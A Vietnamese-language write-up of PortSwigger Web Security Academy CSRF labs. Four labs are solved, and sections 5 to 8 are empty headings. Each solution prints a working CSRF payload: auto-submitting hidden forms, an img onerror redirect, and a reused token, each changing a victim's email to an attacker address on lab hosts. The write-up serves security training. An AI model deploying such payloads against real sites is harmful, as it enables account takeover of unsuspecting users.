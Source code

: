 # 1. CSRF vulnerability with no defenses
Vào exploit server, cấu hình đoạn HTML sau:

```
<form id="form" method="POST" action="https://0afb00eb04d9b8bec0d9405a00290069.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker2@email.com">
</form>

<script>form.submit()</script>
```
Sau khi click "Deliver to victim", bài lab được giải thành công.

# 2. CSRF where token validation depends on request method
Request thay đổi email là `POST /my-account/change-email` với hai tham số `email` và `csrf`. Tuy nhiên nhận thấy nếu ta thay đổi request thành `GET /my-account/change-email?email=attacker%40gmail.com`, cho dù không có tham số `csrf` thì email vẫn bị thay đổi thành công

Vào exploit server cấu hình đoạn XML sau:

```
<img src=1 onerror="document.location='https://0a06005e03421b53c1c14436007600ad.web-security-academy.net/my-account/change-email?email=attacker@gmail.com'">
```
Sau khi click "Deliver to victim", bài lab được giải thành công.

# 3. CSRF where token validation depends on token being present
Ta thấy khi trong request không có tham số `csrf`, email vẫn bị thay đổi. Như vậy ta vào exploit server và cấu hình đoạn HTML:

```
<form method="POST" action="https://0a35003f047cea06c1019ee1003c006c.web-security-academy.net/my-account/change-email" id="form">
<input type="hidden" name="email" value="attacker@gmail.com">
</form>

<script>form.submit()</script>
```
Sau khi click "Deliver to victim", bài lab được giải thành công.

# 4. CSRF where token is not tied to user session
Đăng nhập vào tài khoản wiener:peter rồi vào trang "My account", lưu lại csrf token. Sau đó logout rồi đăng nhập vào tài khoản carlos:montoya, dùng session của carlos và csrf token đã lưu của wiener để submit một request `POST /my-account/change-email`. Kết quả email bị thay đổi. Như vậy giữa csrf và session không có mối liên hệ với nhau. Với một csrf token chưa được sử dụng, ta có thể submit với bất kỳ session nào.

Ta đăng nhập lại tài khoản wiener:peter, lưu lại csrf token là `w9lcvACTQ0fT30znoZiPT42ILgGHkFnF`, sau đó và exploit server để cấu hình đoạn HTML sau:

```
<form id="form" method="POST" action="https://0a1a008e03260d9ac1a3879500b300b3.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker@gmail.com">
<input type="hidden" name="csrf" value="w9lcvACTQ0fT30znoZiPT42ILgGHkFnF">
</form>

<script>form.submit();</script>
```

Sau khi click "Deliver to victim", bài lab được giải thành công.

# 5. CSRF where token is tied to non-session cookie

# 6. CSRF where token is duplicated in cookie

# 7. CSRF where Referer validation depends on header being present

# 8. CSRF with broken Referer validation
